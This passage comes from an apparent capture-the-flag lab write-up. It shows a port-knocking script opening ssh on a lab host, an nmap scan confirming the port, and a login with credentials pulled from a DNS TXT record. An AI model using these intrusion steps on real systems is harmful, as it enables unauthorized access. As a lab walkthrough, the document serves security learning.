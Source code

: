 <p>Now, run the script:</p>

<div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="go">
</span><span class="gp">root@kali# </span>./open_portal_to_Hades.py
<span class="c">.
</span><span class="go">Sent 1 packets.
</span><span class="c">.
</span><span class="go">Sent 1 packets.
</span><span class="c">.
</span><span class="go">Sent 1 packets.
[+] Portal should be open.
Run:
ssh prometheus@10.10.10.83
password: St34l_th3_F1re!
</span></code></pre></div></div>

<p>And check nmap again… ssh is open:</p>

<div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="go">Nmap done: 1 IP address (1 host up) scanned in 15.81 seconds
</span><span class="gp">root@kali# </span>nmap <span class="nt">-p-</span> <span class="nt">-sT</span> <span class="nt">--min-rate</span> 5000 10.10.10.83
<span class="go">Starting Nmap 7.70 ( https://nmap.org ) at 2018-05-21 21:15 EDT
Nmap scan report for 10.10.10.83
Host is up (0.095s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
2222/tcp open  EtherNetIP-1
</span></code></pre></div></div>

<p>Now we can ssh in, trying the credentials from the txt record:</p>

<div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="gp">root@kali# </span>./open_portal_to_Hades.py <span class="o">&amp;&amp;</span> ssh prometheus@10.10.10.83
<span class="c">.
</span><span class="go">Sent 1 packets.
</span><span class="c">.
</span><span class="go">Sent 1 packets.
</span><span class="c">.
</span><span class="go">Sent 1 packets.
[+] Portal should be open.
Run:
ssh prometheus@10.10.10.83
password: St34l_th3_F1re!
prometheus@10.10.10.83's password:

Welcome to

    )         (
 ( /(     )   )\ )   (
 )\()) ( /(  (()/(  ))\ (
((_)\  )(_))  ((_))/((_))\
| |(_)((_)_   _| |(_)) ((_)
| ' \ / _` |/ _` |/ -_)(_-&lt;
|_||_|\__,_|\__,_|\___|/__/
